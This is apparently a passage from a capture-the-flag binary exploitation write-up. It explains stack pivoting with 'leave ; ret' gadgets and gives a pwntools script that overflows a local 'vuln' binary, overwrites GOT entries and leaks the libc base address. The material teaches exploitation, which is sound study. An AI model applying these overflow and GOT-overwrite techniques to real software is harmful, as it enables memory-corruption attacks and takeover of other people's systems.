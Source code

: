 So we need to be more careful about where `rsp` is.
Fortunately most functions used in `main` don't use that much stack space (except for `printf`, which we can skip), so as long as `rsp` is further along in the writable region, its stack usage won't clobber anything.
We can achieve this by using an extra `leave ; ret`.

Recall that after `leave ; ret`, `rsp` points to directly after the saved rbp and rip (due to popping), and since we want `rsp` at a higher address, we can place our own saved `rbp` and `rip` pairs at high addresses. Then for the initial `leave ; ret` (at the end of main), we set `rbp` to point to that pair, and `rip` to `leave ; ret`. That way we control `rbp` and `rip`, while also having `rsp` be far enough to prevent clobbering!

### Getting libc leak

```py
#!/usr/bin/python3
from pwn import *

e = ELF("./vuln")
libc = ELF("./libc.so.6")
p = e.process()

leave_ret = e.sym.main+157
fgets_gadget = e.sym.main+68

high_addr = 0x404800

overflow  = b"\x00".ljust(0x80, b"A")
overflow += p64(high_addr+0x80)
overflow += p64(fgets_gadget)
p.sendlineafter(b"Data: ", overflow)
p.recvline()


overflow  = b"\x00".ljust(0x80, b"A")
overflow += p64(0x404080+0x80)
overflow += p64(fgets_gadget)
# rbp,rip pair at high address
overflow += p64(0x404000+0x80)
overflow += p64(fgets_gadget)
p.sendline(overflow)
p.recvline()

gdb.attach(p)
fake_rbp_rip  = p64(0xdead) + p64(0xbeef)     # blank for now!
fake_rbp_rip  = fake_rbp_rip.ljust(0x80, b"A")
fake_rbp_rip += p64(high_addr+0x90)
fake_rbp_rip += p64(leave_ret)
p.sendline(fake_rbp_rip)
p.recvline()

overwrite  = p64(e.plt.puts + 6)
overwrite += p64(e.plt.puts)        # strlen@GOT
overwrite += p64(e.plt.printf + 6)
overwrite += p64(e.plt.fgets + 6)

p.sendline(overwrite)

libc_leak = u64(p.recv(6) + b"\x00\x00")
log.info(f"puts: {hex(libc_leak)}")

libc.address = libc_leak - libc.sym.puts
log.info(f"libc: {hex(libc.address)}")

```